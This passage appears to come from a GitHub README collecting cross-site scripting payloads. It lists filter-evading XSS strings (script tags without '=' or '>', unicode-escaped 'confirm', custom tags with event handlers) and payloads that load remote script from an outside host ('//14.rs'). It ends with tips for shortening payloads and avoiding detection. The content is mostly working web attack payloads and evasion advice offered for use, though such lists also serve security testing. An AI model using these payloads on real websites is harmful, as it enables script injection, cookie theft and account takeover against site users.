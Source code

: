 - Without equal sign (=)
```
<script>confirm()</script>
```
- Without closing angular bracket (>)
```
<svg onload=confirm()//
```
- Without alert, confirm, prompt
```
<script src=//14.rs></script>
<svg onload=co\u006efirm()>
<svg onload=z=co\u006efir\u006d,z()>
```
- Without a Valid HTML tag
```
<x onclick=confirm()>click here
```

### Awesome Encoding
Come back later

### Awesome Tips & Tricks
- http(s):// can be shortened to // or /\.
- **document.cookie** can be shortened to **cookie**. It applies to other DOM objects as well.
- alert and other pop-up functions don't need a value, so stop doing **alert('XSS')** and start doing **alert()**
- You can use **//** to close a tag instead of **>**.
- I have found that **confirm** is the least detected pop-up function so stop using **alert**.
- Quotes around attribute value aren't neccessary as long as it doesn't contain spaces. You can use **&lt;script src=//14.rs&gt;** instead of **&lt;script src="//14.rs"&gt;**
- The shortest independent "XSS" payload is **&lt;embed src=//14.rs&gt;** (19 chars)

### Awesome Credits
All the payloads are crafted by me unless specified.
Thanks to my big brother [Rodolfo Assis](https://twitter.com/brutelogic) whose writings inspired me to become an XSSLord.
